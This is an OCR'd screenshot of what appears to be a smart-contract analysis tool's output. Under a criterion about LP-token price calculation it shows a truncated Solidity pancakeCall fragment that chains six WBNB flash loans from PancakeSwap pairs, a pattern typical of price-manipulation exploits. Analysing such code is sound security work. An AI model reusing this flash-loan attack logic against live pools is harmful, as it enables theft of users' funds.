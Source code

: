 ╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                          │
│ Code:                                                                                                                                                                                                                                                 │
│     function pancakeCall(                                                                                                                                                                                                                             │
│         address sender,                                                                                                                                                                                                                               │
│         uint256 amount0,                                                                                                                                                                                                                              │
│         uint256 amount1,                                                                                                                                                                                                                              │
│         bytes calldata data                                                                                                                                                                                                                           │
│     ) public {                                                                                                                                                                                                                                        │
│         (uint256 level, uint256 asset) = abi.decode(data, (uint256, uint256));                                                                                                                                                                        │
│                                                                                                                                                                                                                                                       │
│         // Take 6 WBNB flashloans from PCS                                                                                                                                                                                                            │
│         if (level + 1 < 7) {                                                                                                                                                                                                                          │
│             level++;                                                                                                                                                                                                                                  │
│             (uint256 _amount0, uint256 _amount1, ) = pairs.getReserves();                                                                                                                                                                             │
│             if (WBNB == pairs.token1()) {                                                                                                                                                                                                             │
│                 pairs.swap(                                                                                                                                                                                                                           │
│                     0,                                                                                                                                                                                                                                │
│                     _amount1 - 1,                                                                                                                                                                                                                     │
│                     address(this),                                                                                                                                                                                                                    │
